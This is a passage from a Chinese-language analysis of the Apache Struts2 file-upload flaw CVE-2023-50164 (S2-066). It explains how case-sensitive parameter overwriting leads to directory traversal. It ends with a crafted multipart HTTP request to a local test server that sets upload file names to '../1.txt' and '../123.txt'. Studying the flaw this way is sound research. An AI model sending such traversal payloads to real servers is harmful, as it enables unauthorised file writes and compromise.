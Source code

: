 ![Screenshot_20231220_171927.png](Apache%20Struts2%20%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90(CVE-2023-50164%20S2-066)%20545486c2c0f74ea786f6c05eb42f7267/Screenshot_20231220_171927.png)

<aside>
💡 注意 `newParams` 被存入 ac 上下文中, 其保存结构和性质还是为 `HashMap`

</aside>

## Part 2

根据漏洞描述, 是因为大小写进行变量覆盖导致得污染相关上传参数致使目录穿越

现在构造一个能够造成漏洞的数据包, 来测试一下变量覆盖是不是在此处文件上传拦截器触发的

```
POST /apachestrutsdemo_war_exploded/upload.action HTTP/1.1
Host: 127.0.0.1:8082
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 188
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="../1.txt"
Content-Type: text/plain

1aaa
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
Content-Disposition: form-data; name="uploadFileName"

../123.txt
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
```